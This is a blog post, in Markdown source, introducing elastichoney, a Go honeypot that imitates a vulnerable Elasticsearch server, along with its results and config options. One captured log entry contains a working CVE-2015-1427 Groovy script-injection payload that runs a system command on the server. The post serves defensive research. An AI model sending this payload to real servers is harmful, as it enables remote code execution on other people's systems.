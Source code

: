 ```yaml
---
layout: post
title: "Introducing elastichoney - an Elasticsearch Honeypot"
date: 2015-03-23 6:30
comments: true
published: true
categories:
- go
- elasticsearch
- honeypot
---
```

<img src="{{root_url}}/images/headers/elastichoney.png"/>

### Introduction
I recently [wrote](/blog/2015/03/08/elasticsearch-rce-vulnerability-cve-2015-1427/) about an Elasticsearch RCE vulnerability that is being heavily exploited in the wild. To see what kind of attacks are taking place, I decided to write a simple honeypot designed to mimic a vulnerable Elasticsearch (ES) instance. Say hello to [elastichoney](http://github.com/jordan-wright/elastichoney)!
<!--more-->
### How it Works
This honeypot is pretty simple. It takes requests on the ```/```, ```/_search```, and ```/_nodes``` endpoints and returns a JSON response that is identical to a vulnerable ES instance (should be identical - I took the responses straight from one of my hosts that got 0wned).

Attacks are logged as soon as they are detected. By default, elastichoney logs the attacks in JSON format to ```stdout```, as well as to a file called ```elastichoney.log```.

It's important to note that this is by no means foolproof. Clever people can take a look at [the code](http://github.com/jordan-wright/elastichoney) and quickly find ways to detect the honeypot. It's not perfect, but it works. Let's take a look at some results.

### Results
Very quickly after I deployed the honeypot, I started getting hit by attackers scanning large swathes of the Internet looking for vulnerable systems. To date, I've seen approx. 2000 attacks from over 60 unique IP's over the course of a few days, all without advertising my elastichoney instance anywhere.

Here's an entry from my logs that is attempting to exploit the CVE-2015-1427 that I wrote about:

```
{
    "source": "[redacted]",
    "@timestamp": "2015-03-23T13:34:22.519890008-05:00",
    "url": "[redacted]:9200/_search?pretty",
    "method": "POST",
    "form": "pretty=&{\"script_fields\":+{\"iswin\":+{\"lang\":+\"groovy\",+\"script\":+\"java.lang.Math.class.forName(\\\"java.io.BufferedReader\\\").getConstructor(java.io.Reader.class).\\tnewInstance(java.lang.Math.class.forName(\\\"java.io.InputStreamReader\\\").getConstructor(java.io.InputStream.\\tclass).newInstance(java.lang.Math.class.forName(\\\"java.lang.Runtime\\\").getRuntime().exec(\\\"whoami\\\").\\tgetInputStream())).readLines()\"}},+\"size\":+1}=",
    "payload": "",
    "headers": {
        "user_agent": "Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2062.120 Safari/537.36",
        "host": "[redacted]:9200",
        "content_type": "application/x-www-form-urlencoded",
        "accept_language": ""
    },
    "type": "attack",
    "honeypot": "[redacted]"
}
```

Now, I'm sure you're interested in some samples. [Here's](https://gist.githubusercontent.com/jordan-wright/f63575681373f91e462f/raw/b446a9d3bb042aac425970d73c129d4d936478aa/elastichoney.log) a bit of what I have so far. There's some nifty ```wget``` calls in there if you grab them fast enough.

Enjoy!

### Want to Run This Yourself?
*Awesome.* Let's take a look at what it takes to get elastichoney up and running. Installation should take about... 5 seconds. Since this is written in Go, I can provide binaries for most platforms. If you're interested in running elastichoney yourself, just download [the right binary](http://github.com/jordan-wright/elastichoney/releases) for your system, edit the config to your liking, and start it up!

Let's talk about some of the config options. The first option to note is ```use_remote```. I mentioned that elastichoney will log to ```stdout``` and a file by default. You can set this option to also have the honeypot send an HTTP ```POST``` containing the JSON entry to a remote server of your choosing. Personally, I have my entries going to a real elasticsearch instance so I can search on them later.<sup>1</sup>

The second config option that you may want to play with is the ```spoofed_version``` option. This lets you pick what version of ES you want your honeypot to show up as. This helps if you are looking for attackers targeting specific systems (such as those targeting the <=v1.2 RCE vuln vs the most recent RCE vuln).

Finally, the last option you might set is the ```anonymous``` option. This simply determines if you want your honeypot IP to show up in logs. If so, elastichoney will make a single call out to icanhazip.com when it starts up to get the external IP. Otherwise, it'll just use ```1.1.1.1```<sup>2</sup>. This is helpful if you want to create an anonymous cluster of honeypots.

As always, let me know if you have any questions or comments below.

-Jordan ([@jw_sec](https://twitter.com/jw_sec))

[1] Irony.<br/>
[2] Big shout-out to the person actually on ```1.1.1.1```.
